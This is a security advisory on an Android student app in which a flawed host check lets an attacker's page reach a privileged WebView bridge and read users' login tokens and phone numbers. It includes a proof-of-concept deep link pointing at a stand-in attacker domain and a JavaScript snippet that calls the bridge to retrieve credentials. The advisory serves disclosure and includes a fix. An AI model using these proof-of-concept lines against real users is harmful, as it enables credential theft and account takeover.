

# Shandong School (闪动校园) Student App: Deep-link Allowlist Bypass to JSBridge Privilege Escalation

[中文](REPORT.zh.md)

## Overview

| Item | Detail |
|---|---|
| Reporter | tyldx (tyldx@proton.me) |
| Report date | 2026-11-18 |
| Type | Deep-link allowlist bypass to JSBridge privilege escalation (CWE-183, chained with CWE-346 / CWE-749) |
| Affected | `com.huachenjie.shandong_school` 8.8.1 (versionCode 26102914, SHA-256 `f317bfd9fa27a042a7d6755f9b608ca5630640dbcd2e6cf22983eefa5ea469cd`); earlier versions not verified |
| Impact | An attacker-controlled domain makes the target WebView load an arbitrary page; `getAuthInfo` returns token/satoken/phone, which can lead to account takeover |
| CVSS 3.1 | 8.1 (High) `AV:N/AC:L/PR:N/UI:R/S:U/C:H/I:H/A:N` |
| Trigger | A logged-in user taps an attacker-crafted deep link and confirms opening it; some in-app browsers may intercept. |
| Vendor notification | Notified on 2026-11-18 via email shandongxinxifuwu@163.com; no response yet |

## Root cause

Exported entry point (`AndroidManifest.xml`):

```xml
<activity android:name=".third.ThirdTransferActivity" android:exported="true">
  <intent-filter>
    <data android:scheme="shandong" android:host="huanchenjie.com" android:path="/ThirdTransfer"/>
    <action android:name="android.intent.action.VIEW"/>
    <category android:name="android.intent.category.BROWSABLE"/>
  </intent-filter>
</activity>
```

Allowlist check (`ThirdTransferActivity.onCreate`):

```java
try { host = new URI(h()).getHost(); }
catch (Exception unused) { host = ""; }
if (Intrinsics.areEqual(f(), "/base/d_webview")) {
    if (!StringsKt.endsWith(host, "huachenjie.com", false)) { finish(); return; }
}
i();
```

`endsWith` has no dot boundary, so `<x>huachenjie.com` passes.

Load and bridge (`/base/d_webview` → `PayWebViewActivity` extends `DWebViewActivity`):

```java
this.f38479n0 = intent.getStringExtra("url");        // DWebViewActivity:175
this.f38476k0.getWebView().loadUrl(this.f38479n0);   // DWebViewActivity:202
// WebContentView:253  addJavascriptObject(new JavascriptApi(webView), null)
```

`JavascriptApi` is registered in the default namespace; the page retrieves credentials via `_dsbridge.call("getAuthInfo", …)`.

## PoC

Full code in [`poc/`](poc/).

**Key code**

Deep link that bypasses the host check:

```
shandong://huanchenjie.com/ThirdTransfer?path=/base/d_webview&url=https://<attacker>huachenjie.com/evil.html
```

Call the bridge inside the target WebView to retrieve credentials:

```js
var cb = "__cb";
window[cb] = function (r) { console.log("getAuthInfo", r); };
window._dsbridge.call("getAuthInfo", JSON.stringify({ data: null, _dscbstub: cb }));
```

## Dynamic verification

The PoC page retrieves the credentials inside the target WebView (redacted):



Rebinding the phone verifies only the new number, not the original:

| Step | Screenshot |
|---|---|
| Personal settings | `evidence/screenshots/01-personal-settings.png` |
| Account management | `evidence/screenshots/02-account-management.png` |
| Bind new phone | `evidence/screenshots/03-bind-new-phone.png` |
| Enter new number and code | `evidence/screenshots/04-enter-number-and-code.png` |
| Submitted | `evidence/screenshots/05-submitted.png` |

An attacker completing takeover by calling the same endpoint with a stolen satoken is inferred from credential equivalence, not tested.

## Impact

`getAuthInfo` (`JavascriptApi.java:1301`) returns the victim's token, satoken, userId, nickName, avatar, sex, and phone to the attacker's page. With these, the attacker can call backend APIs (`run-front/*`) as the victim and rebind the phone number, locking the original user out, which can lead to account takeover.

The same JSBridge also exposes methods such as payment and arbitrary-URI launching (see appendix), which could further expand the attack surface.

## Scope

All testing was performed on the official production app using test accounts registered and controlled by the reporter. No third-party accounts were targeted, and no credentials or data belonging to others were obtained or used.

Limitations: tested only on Android app version 8.8.1 (Android 17); the iOS app and other versions were not tested.

## CWE / CVSS

CWE:

- Primary CWE-183 overly permissive rule: `host.endsWith("huachenjie.com")` has no dot boundary, `<x>huachenjie.com` passes (`ThirdTransferActivity.onCreate`)
- Chained CWE-346 origin validation failure, attacker URL enters the privileged WebView
- Chained CWE-749 WebView exposes sensitive JS methods (`getAuthInfo`, etc.)

CVSS 3.1: `AV:N/AC:L/PR:N/UI:R/S:U/C:H/I:H/A:N` = 8.1 (High).

- AV:N deep link delivered remotely via a web link
- AC:L no extra conditions, URL passes directly
- PR:N attacker needs no privileges
- UI:R victim must tap the deep link
- S:U impact confined to the target app's authorization scope
- C:H `getAuthInfo` leaks token/satoken/phone
- I:H can impersonate `run-front/*` calls and rebind the phone to lock out the original owner
- A:N overall service availability unaffected

## Remediation

Replace the unanchored `endsWith` with an exact host match or a dot-boundary suffix check:

```java
host.equals("huachenjie.com") || host.endsWith(".huachenjie.com")
```

## Disclosure timeline

- 2026-11-18 Checked the vendor's website, security@ mailbox, and /.well-known/security.txt; no security contact found
- 2026-11-18 Reported to the vendor at shandongxinxifuwu@163.com
- 2026-11-18 Submitted to CNVD (CNVD-C-2026-941784)
- 2026-11-19 In-app customer service: no security channel; hundreds queued for a human agent
- 2026-11-22 Requested a CVE from VulDB (CNA)

## Appendix: method list

| Method | Function | Method | Function |
|---|---|---|---|
| `androidPay` | Start Android payment | `openLink` | ARouter open `Common.c` webview |
| `backToHome` | Return to home | `openMallCatPage` | Open mall category page |
| `bindWeixinAccount` | Bind WeChat account | `openMallCustomerService` | Open mall customer service |
| `captchaVerify` | Captcha verification | `openMallGoodsDetail` | Open product detail |
| `chooseImage` | Open image picker | `openMallMessage` | Open mall messages |
| `clearWebCache` | Clear WebView cache | `openMallOrderDetail` | Open order detail |
| `copyToClipboard` | Write to clipboard | `openMallShopDetail` | Open shop detail |
| `deleteFilmMoment` | Broadcast locally to delete a video moment | `openMerchantCustomerService` | Open merchant customer service |
| `getAppInfo` | Return app info | `openStarDrillRecharge` | Star-drill recharge UI |
| `getAppVersion` | Return app version | `openSuperPack` | Super pack purchase UI |
| `getAuthInfo` | Return `token / satoken / userId / nickName / avatar / sex / phone` | `openTaskList` | Open task list |
| `getLocationInfo` | Return latitude/longitude and province/city | `openTkLink` | Open TK link |
| `getNIMFriendList` | Return NIM (Yunxin) friend list | `openToBidRewardAD` | Bidding reward ad |
| `getPermissionStatus` | Return permission status | `openWeixinMiniProgram` | Open WeChat mini program |
| `getUserInfo` | Return user profile | `saveToPhotoAlbum` | Write to photo album |
| `goBack` | WebView back | `shareFilm` | Share video |
| `goHWHealthHome` | Open Huawei Health | `shareImage` | Share image |
| `luckyDrawEvent` | Lucky draw event | `shareLink` | Share link |
| `modelLoaded` | Model loaded callback | `shareText` | Share text |
| `openApplication` | ACTION_VIEW launch a JS-specified URI | `showTradePay` | Show trade payment UI |
| `openBuddyTeamChat` | Open/create a buddy group chat | `spineReady` | Spine assets ready callback |
| `openCrystalExchange` | Crystal exchange UI | `suitLoaded` | Suit loaded callback |
| `openInternalLink` | ARouter open `/base/d_webview` |  |  |
